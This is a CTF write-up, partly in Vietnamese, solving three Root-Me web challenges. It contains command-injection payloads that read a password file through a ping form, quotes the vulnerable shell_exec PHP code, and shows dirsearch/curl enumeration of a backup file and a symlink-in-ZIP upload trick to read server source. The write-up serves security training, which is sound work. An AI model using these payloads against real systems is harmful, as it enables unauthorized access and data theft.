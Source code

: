 ## [PHP - Command injection](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)

### Steps to reproduce

    - C1
    - via http://challenge01.root-me.org/web-serveur/ch54/index.php --> form nhập ex: 127.0.0.1 thử thì có tác tác dụng là ping tới 1 địa chỉ ip.
    - Test thử ;whoami --> done có thể khai thác commad.
    - 127.0.0.1;ls -la
    - phát hiện file .passwd
    - 127.0.0.1;cat .passwd --> done
    - C2
    - payload : 127.0.0.1;cat index.php
```
    <?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
    - Và đọc .passwd để lấy flag

## [Backup file](https://www.root-me.org/en/Challenges/Web-Server/Backup-file)
### Steps to reproduce

    - Khi vào chall ta thấy ô nhập login và password. 
    - Nhớ tên bài là Backup file nha. Như vậy ta sẽ tìm cách tìm được file backup để xem source code.
    - Ở đây tôi dùng công cụ dirsearch để tìm các file ẩn.
    - dirsearch -u http://challenge01.root-me.org/web-serveur/ch11/ -e * -x 400,403,404 -t 70 --proxy http://127.0.0.1:8080
    - dirsearch -u http://challenge01.root-me.org/web-serveur/ch11/ --proxy http://127.0.0.1:8080
    - Kết quả tìm được file index.php~ (file backup)
    - curl http://challenge01.root-me.org/web-serveur/ch6/index.php~ --> done
    - Copy the passwd from the response

## [File upload - ZIP](https://www.root-me.org/en/Challenges/Web-Server/File-upload-ZIP)
### Steps to reproduce

    - Test upload file abc.zip
    - Web thực hiện giải nén file zip và lưu vào thư mục /web-serveur/ch51/tmp/uploads/abfasfqr546786758c/
    - để đọc được file index.php ở /web-serveur/ch51/tmp/index.php ta cần upload file zip có chứa file symlink trỏ tới /web-serveur/ch51/tmp/index.php
    - Tạo file symlink với đường dẫn tương đối trong linux: ln -s -f ../../../index.php symlink.txt
    - ../../../index.php tương đối tới /web-serveur/ch51/tmp/index.php
    - Tạo file zip có chứa symlink: zip exploit.zip symlink.txt
    - Upload file exploit.zip
    - Truy cập http://challenge01.root-me.org/web-serveur/ch51/tmp/uploads/abfasfqr546786758c/symlink.txt
    - Copy the flag from the response
